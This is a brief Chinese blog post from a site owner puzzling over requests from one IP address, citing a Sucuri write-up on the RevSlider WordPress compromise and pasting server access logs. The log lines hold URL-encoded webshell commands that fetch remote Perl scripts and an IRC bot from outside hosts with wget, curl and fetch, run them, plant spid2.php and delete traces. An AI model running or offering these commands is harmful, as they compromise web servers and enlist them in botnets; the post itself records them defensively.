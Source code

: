 ```yaml
---
layout: post
title:  "37.187.248.45又是什么鬼"
date:   2015-3-20 00:48:57 +0800
categories: 技术
---
```


这回我没事去看了看[http://identerprise.co.kr/css/qtalk.txt](http://identerprise.co.kr/css/qtalk.txt)这个文件，绝对不信这是蜘蛛了……

参考文章：[RevSlider Vulnerability Leads To Massive WordPress SoakSoak Compromise](http://blog.sucuri.net/2014/12/revslider-vulnerability-leads-to-massive-wordpress-soaksoak-compromise.html)

<!--more-->
    37.187.248.45 [20/Mar/2015:00:14:03 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php 404 0.014 0.014 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:03 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/spid2.php 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:02 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/byroe.jpg;curl%20-O%20http://identerprise.co.kr/css/byroe.jpg;fetch%20http://identerprise.co.kr/css/byroe.jpg;mv%20byroe.jpg%20spid2.php; 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:01 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/b.txt;curl%20-O%20http://identerprise.co.kr/css/b.txt;fetch%20http://identerprise.co.kr/css/b.txt;perl%20b.txt;rm%20-rf%20b.txt* 404 0.017 0.017 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:01 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/spid2.php 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:58 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/byroe.jpg;curl%20-O%20http://identerprise.co.kr/css/byroe.jpg;fetch%20http://identerprise.co.kr/css/byroe.jpg;mv%20byroe.jpg%20spid2.php; 404 0.015 0.015 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:56 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://wawalo.wap.sh/bot.txt;curl%20-O%20http://wawalo.wap.sh/bot.txt;fecth%20http://wawalo.wap.sh/bot.txt;perl%20bot.txt%20irc.ayochat.or.id;rm%20-rf%20bot.txt* 404 0.015 0.015 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:57 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/b.txt;curl%20-O%20http://identerprise.co.kr/css/b.txt;fetch%20http://identerprise.co.kr/css/b.txt;perl%20b.txt;rm%20-rf%20b.txt* 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:56 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.012 0.012 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:54 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://wawalo.wap.sh/bot.txt;curl%20-O%20http://wawalo.wap.sh/bot.txt;fecth%20http://wawalo.wap.sh/bot.txt;perl%20bot.txt%20irc.ayochat.or.id;rm%20-rf%20bot.txt* 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:52 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:52 +0800] /blog/post/18/wp-admin/admin-ajax.php 404 0.015 0.015 4477 
    www.jithee.name POST HTTP/1.0 "-" "Mozilla/5.0 (Windows NT 5.1; rv:31.0) Gecko/20100101 Firefox/31.0" yq26
      37.187.248.45 [20/Mar/2015:00:13:49 +0800] /blog/post/18/wp-content/plugins/revslider/temp/update_extract/revslider/nino.php 404 0.014 0.014 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:48 +0800] /blog/post/18/wp-content/plugins/revslider/temp/update_extract/revslider/spid.php 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:48 +0800] /wp-admin/admin-ajax.php 404 0.016 0.016 4477 
    www.jithee.name POST HTTP/1.0 "-" "Mozilla/5.0 (Windows NT 5.1; rv:31.0) Gecko/20100101 Firefox/31.0" yq26
      37.187.248.45 [20/Mar/2015:00:13:45 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:17 +0800] /blog/post/18/wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.014 0.014 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:14 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://identerprise.co.kr/css/b.txt;curl%20-O%20http://identerprise.co.kr/css/b.txt;fetch%20http://identerprise.co.kr/css/b.txt;perl%20b.txt;rm%20-rf%20b.txt* 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:13 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://wawalo.wap.sh/bot.txt;curl%20-O%20http://wawalo.wap.sh/bot.txt;fecth%20http://wawalo.wap.sh/bot.txt;perl%20bot.txt%20irc.ayochat.or.id;rm%20-rf%20bot.txt* 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:09 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.699 0.699 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
